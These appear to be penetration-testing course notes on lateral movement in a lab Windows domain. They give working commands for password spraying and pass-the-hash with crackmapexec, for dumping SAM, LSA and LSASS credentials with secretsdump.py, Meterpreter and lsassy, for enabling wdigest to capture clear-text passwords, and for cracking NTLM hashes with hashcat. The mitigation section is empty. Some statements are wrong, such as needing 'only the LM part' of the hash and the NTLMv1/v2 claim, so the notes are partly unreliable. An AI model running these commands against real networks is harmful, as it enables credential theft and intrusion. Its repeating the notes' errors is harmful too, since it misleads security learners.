

### Hash Pass, Hash Dumping, and Cracking

Pass the Password / Pass the Hash  
&ensp;&ensp;crackmapexec has been updated to netexec.  Same tool, different name  

If we've gathered any SAM hashes or cracked passwords, we can leverage both to move laterally  

Pass the Password  
`crackmapexec smb 10.0.0.0/24 -u fcastle -d PNPT.local -p Password1`  
&ensp;Here we're using SMB to try the username and password on the PNPT.local domain for all addresses in the 10.0.0.0/24 range.  
&ensp;This will spit out some info.  Green [+] is having access, getting the orange (Pwn3d!) is having admin access  

To gain Hashes you can go a number of different ways.  
&ensp;Meterpreter - `hashdump` will dump the hashes from the local SAM files  
&ensp;`secretsdump.py PNPT.local/fcastle:Password1@10.0.0.200`  
&ensp;`secretsdump.py administrator:@10.0.0.200 -hashes <hash>`  
&ensp;&ensp;This uses a python script to dump the hashes.  Run this on every machine that you have gotten local admin for.  
&ensp;You may be able to get some clear text passwords on older systems with `wdigest` although this may not always be needed.  It works as a watering hole attack in that you would have to enable it and then wait for someone to log in.  

Crack hashes once you get them.  You only need the LM part of the NT:LM hash.  
&ensp;`mousepad ntlm.txt`  
&ensp;Enter the LM part of the hash  
&ensp;`hashcat -m 1000 ntlm.txt /usr/share/wordlists/rockyou.txt -O`  
&ensp;&ensp;Another example of hashcat.  
	

Pass the Hash attack (NTLMv1 will work, will not work on NTLMv2)  
`crackmapexec smb 10.0.0.0/24 -u administrator -H <hash> --local-auth`  
&ensp;Here we use SMB to pass the administrator hash we collected on different machines as a local account.  
&ensp;Same color key applies, green +, (Pwned!), or STATUS_LOGON_FAILURE  
&ensp;&ensp;We can also add `--sam` at the end to dump the SAM file as well instead of using secretsdump.py  
&ensp;&ensp;We can also add `--shares` to enumerate what shares are on the device  
&ensp;&ensp;`--lsa` will dump the 'local security authority'  
&ensp;&ensp;&ensp;All of these can also be done with secretsdump.py  
&ensp;&ensp;`crackmapexec smb -L` will show different built in modules  
&ensp;&ensp;&ensp;`-M lsassy` at the end will run the Module, lsassy.  -M and module name  
&ensp;CME will keep a database of tried (successful and unsuccessful) passwords  

Accessing the CME database  
&ensp;`cmedb` will kick you into the cme database  
&ensp;&ensp;type `help` to get a list of commands  

Mitigation for these attacks  
  
